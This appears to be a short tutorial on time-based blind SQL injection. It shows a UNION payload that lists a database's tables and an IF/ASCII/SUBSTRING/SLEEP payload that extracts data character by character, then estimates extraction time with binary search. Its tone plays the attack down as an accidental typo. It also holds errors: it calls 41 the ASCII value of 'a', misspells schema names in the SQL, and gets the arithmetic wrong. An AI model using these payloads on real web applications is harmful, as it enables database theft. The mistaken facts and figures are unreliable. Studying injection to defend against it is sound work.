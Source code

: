 # Real world example
Consider this rather common sql query which is uses in many webapplications:

```sql
SELECT x,y FROM z WHERE z.id=10 
```

The value '10' is supplied by the user. If this value is not properly validated 
or sanitized, any innocent bystander might make a typo in the URL-bar and 
accidentally turn the query into this:

```sql
SELECT x,y 
FROM z 
WHERE z.id=10 
UNION SELECT 1,GROUP_CONCAT(table_name) 
  FROM information_scheme.tables 
  WHERE table_schema = database()
```

Unfortunately, quite often, the webpage does not show the results of the query 
directly. This oversight severely limits the webpages functionality. But surely, 
it doesn't need to stay that way. 

Consider the following (convoluted) query carefully:

```sql
SELECT x,y 
FROM z 
WHERE z.id=10 
AND IF( 
    ASCII(
        SUBSTRING(	
            (SELECT GROUP_CONCAT(table_name) 
	    FROM information_schema.tables 
	    WHERE table_scheme = database()),
	    1,1
        )
    ) = 41,
    SLEEP(3),
    NULL
)
```
The nested SELECT yields a single string; a concatenation of all table names. 
We take the first character of this string, and turn it into an ascii (=integer) 
value. Next; the IF-statement tests if this ascii-value is equal to 41 (which 
happens to be the ascii value for 'a'). 

If this is TRUE, the database will go 
sleepy-time for about 3 seconds. Otherwise, it will respond immediately. We 
monitor the response-times closely to see if we have guessed correctly. If not, we
then query for 'b', 'c', 'd', etc. Not only do we need to try the range of a-z, but 
also A-Z, 0-9 and a bunch of special characters. Actually, the ascii range you'll 
want to query is from 32 to 127 (=95 characters).

This will, however, take ages to complete.

### Performance estimates
Lets say that this completely imaginary webpage responds within 0.5 seconds under 
normal conditions. If it takes longer than 3, this indicates that we have found the 
correct character. Given these parameters, we can estimate the time needed for a 
SMS-message sized string (160 characters):
```math
avg of (95/2) wrong guesses per char * 0.5 sec per wrong guess =  23.75 seconds
1 right guess * 3 sec per correct guess = 3 seconds
(23.75 + 3) * 160 characters = 4280 sec = about 71 minutes
```
Life is too short to leave this unoptimized. Luckily, with binary search, you can find 
any value within a range of 128 values in just 7 guesses. But about half of these guesses 
will be correct, and thus, slow. 
```
avg of 3.5 wrong guesses per char * 3 seconds = 11.5 seconds for incorrect guesses
avg of 3.5 right guesses per char * 0.5 second = 1.75 seconds
(11.5 + 1.75) * 160 characters = 2120 seconds = 35 minutes.
```
As you can see, in this scenario, applying a binary search algorithm may speed up the 
guessing process by over 200%. Also the total number of requests is reduced from 8160 
to 1120. It's still noisy as hell. But it's much less likely to accidentaly overload 
the server.


